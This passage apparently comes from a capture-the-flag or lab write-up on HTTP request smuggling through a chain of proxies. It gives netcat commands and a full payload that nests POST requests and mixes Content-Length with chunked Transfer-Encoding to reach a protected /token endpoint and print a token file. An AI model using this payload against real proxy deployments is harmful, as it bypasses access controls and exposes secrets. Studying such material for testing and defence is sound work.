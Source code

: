 Run that Python code to create `mawKessel.http` and `fullRequest.http`, and then use `netcat` to send that HTTP request to our local `maw` proxy on port 8082.

```bash
python3 buildRequest.py
cat mawKessel.http | nc localhost 8082
```

![A screenshot of curl and the proxies running. The logs show the HTTP request being incorrectly parsed by the proxies, and the output from curl this time is now the "Sample Kessel Token File". ](./imgs/kessel-local.png "Smuggling Through Local Maw")

As with our previous smuggling attempts, we can see the Token file is output in our `netcat` command, and we can see the proxies handling multiple requests in the proxy logging. Now let's try passing the full request, which consists of the following, to the real proxies.

```bash
cat fullRequest.http | nc channel.us 8080
```

```http
POST /maelstrom HTTP/1.1
Host: channel:8080
Content-Length: 259
Transfer-Encoding: chunked
Connection: keep-alive

0

POST /maw HTTP/1.1
Host: maelstrom:8080
Transfer-Encoding: chunked
Content-Length: 4
Connection: keep-alive

80
0

POST /kessel HTTP/1.1
Host: maw.us:8080
Connection: keep-alive
Test: test

POST /token HTTP/1.1
Host: kessel.us:8080


0


```